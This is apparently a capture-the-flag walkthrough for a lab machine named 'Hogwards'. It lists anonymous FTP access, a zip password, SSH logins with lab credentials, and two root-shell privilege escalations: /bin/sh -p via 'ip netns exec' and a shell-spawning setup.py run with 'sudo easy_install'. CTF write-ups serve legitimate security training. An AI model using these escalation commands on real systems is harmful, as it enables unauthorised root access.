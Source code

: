 # Hogwards
## Method 1
1. `ftp $IP -p 7259` and anonymous
2. `get .I_saved_it_harry.zip`
3. `unzip .I_saved_it_harry.zip` passwod is:`qwer1234`
4. `ssh -l neville -p 9075 $IP`
5. `ip netns add foo`
6. `ip netns exec foo /bin/sh -p`
## Method 2
1. `ssh draco@hogwards.thm` password: `slytherin`
2. `TF=$(mktemp -d)`
3. `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
4. `sudo easy_install $TF`
